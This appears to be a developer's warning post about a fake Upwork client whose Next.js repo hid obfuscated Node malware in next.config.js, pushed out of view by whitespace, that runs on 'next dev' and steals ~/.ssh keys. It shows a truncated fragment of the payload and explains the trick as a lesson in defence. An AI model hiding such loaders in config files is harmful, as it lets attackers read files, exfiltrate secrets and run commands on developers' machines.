

## The setup

A potential client on Upwork asked me to clone their repo and run it locally.



Their profile had a **0% hire rate** and was a few days old. That alone should have been enough.

## The trick

The repo was a plain Next.js app. `npm run dev` just ran `next dev`, nothing odd in `package.json`.

The payload was in `next.config.js`, pushed far to the right with whitespace:

```ts
/** @type {import('next').NextConfig} */
const nextConfig = {
  images: { domains: ["coin-images.coingecko.com"] },
};

module.exports = nextConfig;                                                      const bi=a1,bj=a1,bk=a1,bl=a1,bm=a1;(function(aU,aV){const...
```

Scroll the block sideways to find it. The real file had way more whitespace. The giveaway is a horizontal scrollbar in your editor where there shouldn't be one.

## What it does

`next dev` loads the config, so the script runs the moment you start the dev server. It's obfuscated Node that pulls in `os`, `fs`, `https` and `child_process`, which is enough to read any file, send it to a remote server and run commands on your machine. This one was after my `~/.ssh` keys.

Read the config files before running a stranger's code.
